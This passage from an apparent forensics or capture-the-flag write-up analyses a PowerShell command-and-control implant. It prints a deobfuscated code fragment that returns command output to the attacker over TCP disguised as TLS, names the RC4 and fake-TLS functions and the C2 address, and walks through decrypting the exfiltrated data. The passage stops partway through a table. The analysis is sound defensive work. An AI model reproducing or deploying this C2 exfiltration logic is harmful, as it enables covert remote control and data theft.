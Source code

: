 ```powershell
    # Prepare command output for sending back to attacker (encrypt + TLS-like formatting)
    $ResponsePacket = PrepareTlsAppData -CommandOutputString $CommandOutput.Trim() # Original: $BBBB8BB88BB888B8
    $NetworkStream.Write($ResponsePacket, 0, $ResponsePacket.Length)
}

$NetworkStream.Close()
$TcpClient.Close()
```

Gemini also recognized a lot of familiar byte sequences and assigned accommodating names to each, including:
 - RC4 Encryption/Decryption Function (based on algorithms)
     - The function contained the encryption/decryption key
 - TLS "Builder" Function (based on specific byte sequences)
     - The function mimics a TLS packet to mask the exfiltrated data
 - Target Host/Port Variables (based on "TcpClient.connect(HOST, PORT)" call)

Based on the code's functions, the program will contact the home server and await the attacker's commands, then respond with the command outputs — a Command and Control attack. 

With this in mind, I can finally filter out network traffic and see what was exfiltrated. 
 - Traffic of interest: packets involved in the communication with the home server
     - Add IP filter for 20.5.48.200
 - Traffic of interest: packets marked TLS/SSL (implied from the TLS "Builder")
     - Add protocol filter for TLS

<p align="center"><img width="833" height="328" alt="image" src="https://github.com/user-attachments/assets/ca1477d5-47b7-4184-a4a2-ce9b44c98d02" /></p>

Now, we can decrypt the hidden messages from these fake TLS packets.

The last packet sent from the victim's computer contained this document.

<p>
<table width="100%">
  <tr>
    <th width="25%">Step</th>
    <th>Data</th>
  </tr>
  <tr>
    <td>Start</td>
    <td>4b3595b2c7d8941fc50194795a788096a970b42074c522d6d34775419212149581d5f6<br>
29d01c75eda554a1a2f07d5258f278b022022f65d9d589f645f79241cb0a39d4850018<br>
ed6f342737ee9335225aed762aaa139bdddf799e08d9b6056ea462e8508b3017000601<br>
073e1ff741660d29045023182476ae5407c6b849363cfc9701a73eb688bf20d086d7ef<br>
04e18d640465e162999b3e0229733065f0fc330f97e270070f1ee60966b43a8ea70238<br>
90b1ad1e2858645a0846da14852d0f3bf000948c8818e6c03955e64143c2736f8bdb48<br>
daa2</td>
  </tr>
  <tr>
    <td>1 - RC4 Decrypt</td>
    <td>H4sIAAAAAAAAA+3OMQrCQBSE4dSeIieQt3m78QCKlYVorBdZjYVgkeyCQby7iyCIfdTi/5<br>
qBaWbOx6GfxmssRiRZbe0zs88UcVoYJ6q1VlJp7mc2V6WMeeol9XHfleU3pv7RYjdvljfj<br>
T0md84MkH+zFHzRshnXjm9XWx862rQn3ya+vAgAAAAAAAAAAAAAAAADePAC9uw8vACgAAA<br>
==</td>
  </tr>
  <tr>
    <td>2 - Base64 Decode (Hex for visibility)</td>
    <td>1f8b0800000000000003edce310ac2401484e1d49e222790b779bbf1008a958568ac17<br>
598d856091ec8241bcbb8b20887dd4e2ff9a816966cec7a19fc66b2c4624596ded33b3<br>
cf14715a1827aab5565269ee673657a58c79ea25f571df95e537a6fed162376f9637e3<br>
4f499df383241fecc51f346c8675e39bd5d6c7ceb6ad09f7c9afaf0200000000000000<br>
000000000000de3c00bdbb0f2f00280000<br></td>
  </tr>
  <tr>